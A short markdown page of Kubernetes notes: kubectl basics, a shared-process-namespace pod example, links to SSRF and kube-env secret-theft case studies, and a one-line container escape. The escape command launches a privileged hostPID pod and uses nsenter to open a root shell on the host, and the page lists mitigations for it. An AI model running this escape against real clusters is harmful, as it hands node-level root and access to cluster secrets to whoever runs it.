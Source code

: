 # +

- On OOMKilled check dmesg on container host
- https://github.com/kubeshark/kubeshark
- https://kubenomicon.com/

# lifecycle

```bash
kubectl apply -f foo.yaml

kubectl get services
kubectl get pods --all-namespaces

kubectl delete pod 'foo' --grace-period=0

kubectl run -i --tty --image busybox foo --restart=Never --rm
```

# containers with same pid namespace

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: shared
spec:
  shareProcessNamespace: true
  containers:
  - name: 1
    image: busybox
    command: ["sh"]
    args: ["-c", "foo"]
    env:
    - name: CONTAINER_NAME
      value: 1
  - name: 2
    image: busybox
    env:
    - name: CONTAINER_NAME
      value: 2
```

```bash
# On container 1
ps
# USER		PID		COMMAND
# root		  6		sh -c -- foo

# List container 2 root directory
ls /proc/6/root
```

# case studies

### kube-env leaked via ssrf

- [SSRF in Exchange leads to ROOT access in all instances](https://hackerone.com/reports/341876)
- [Shopify’s $25k Bug Report, and the Cluster Takeover That Didn’t\.\.\. \- Greg Castle &amp; Shane Lawrence \- YouTube](https://www.youtube.com/watch?v=2XCm7vveU5A)
- [GitHub \- bgeesaman/kube\-env\-stealer: Automated GKE Kubelet Impersonation and Cluster Secret Stealer via kube\-env](https://github.com/bgeesaman/kube-env-stealer)

### root pid ns

```bash
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'
```

- Mitigations:
    - `PodSecurityPolicies`
    - `--allow-privileged=False` on kubelet
